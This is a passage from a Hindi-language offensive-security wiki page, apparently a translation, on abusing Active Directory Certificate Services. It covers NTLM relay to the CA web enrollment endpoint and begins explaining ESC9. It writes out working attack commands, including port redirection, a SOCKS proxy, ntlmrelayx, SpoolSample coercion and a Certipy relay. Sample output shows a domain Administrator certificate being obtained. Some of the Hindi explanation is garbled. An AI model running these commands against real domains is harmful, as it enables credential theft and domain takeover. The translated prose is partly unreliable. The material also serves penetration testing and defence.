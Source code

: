 <figure><img src="../../../.gitbook/assets/image (937).png" alt=""><figcaption></figcaption></figure>

#### प्रमाणित के साथ दुरुपयोग
```bash
## In the victim machine
# Prepare to send traffic to the compromised machine 445 port to 445 in the attackers machine
PortBender redirect 445 8445
rportfwd 8445 127.0.0.1 445
# Prepare a proxy that the attacker can use
socks 1080

## In the attackers
proxychains ntlmrelayx.py -t http://<AC Server IP>/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

# Force authentication from victim to compromised machine with port forwards
execute-assembly C:\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe <victim> <compromised>
```
#### [Certipy](https://github.com/ly4k/Certipy) के साथ दुरुपयोग

सर्टिफिकेट का अनुरोध डिफ़ॉल्ट रूप से Certipy द्वारा किया जाता है जो टेम्प्लेट `Machine` या `User` पर आधारित होता है, जो यह निर्धारित करता है कि क्या खाता नाम `$` से समाप्त हो रहा है। एक वैकल्पिक टेम्प्लेट का निर्धारण `-template` पैरामीटर का उपयोग करके किया जा सकता है।

[PetitPotam](https://github.com/ly4k/PetitPotam) जैसी एक तकनीक का उपयोग फिर किया जा सकता है जिससे प्रमाणीकरण को मजबूर किया जा सकता है। जब डोमेन कंट्रोलर्स के साथ काम किया जा रहा हो, तो `-template DomainController` का निर्धारण आवश्यक है।
```bash
certipy relay -ca ca.corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```
## कोई सुरक्षा एक्सटेंशन - ESC9 <a href="#id-5485" id="id-5485"></a>

### स्पष्टीकरण

नए मान **`CT_FLAG_NO_SECURITY_EXTENSION`** (`0x80000`) के लिए **`msPKI-Enrollment-Flag`** के लिए, जिसे ESC9 कहा जाता है, प्रमाणपत्र में **नई `szOID_NTDS_CA_SECURITY_EXT` सुरक्षा एक्सटेंशन** को समाहित करने से रोकता है। यह ध्वज `StrongCertificateBindingEnforcement` को `1` पर सेट किया जाता है (डिफ़ॉल्ट सेटिंग), जो `2` पर सेटिंग के साथ विपरीत है। इसका महत्व उचित होता है जब किसी कमजोर प्रमाणपत्र मैपिंग का उपयोग किया जा सकता है केरबेरोस या शैनल के लिए (जैसे ESC10 में), क्योंकि ESC9 की अनुपस्थिति आवश्यकताओं को बदल नहीं सकती।
